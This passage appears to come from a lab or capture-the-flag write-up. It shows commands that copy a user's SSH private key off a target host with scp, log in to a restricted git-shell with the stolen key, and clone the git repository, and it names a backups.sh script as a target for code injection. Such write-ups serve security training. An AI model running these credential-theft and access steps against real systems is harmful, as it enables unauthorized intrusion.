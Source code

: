 ```bash
scp -P 43022 dademola@192.168.223.125:/home/git/.ssh/id_rsa .
```

![](images/2025-09-10_5.png)

## Access Git Shell:

The private key was used to establish an SSH connection, providing access to a restricted `git-shell` environment.

```bash
ssh -i id_rsa -p 43022 git@192.168.223.125
```

This provides write and execute permission to the git-shell evironment.
![](images/2025-09-10_6.png)
At this point we should be able to communicate with the git repo.

## Clone and Modify the Repository:

From the attacker's machine, the Git repository was cloned. The `backups.sh` script was identified as a target for code injection.

```bash
GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@192.168.223.125:/git-server
```

![](images/2025-09-10_7.png)
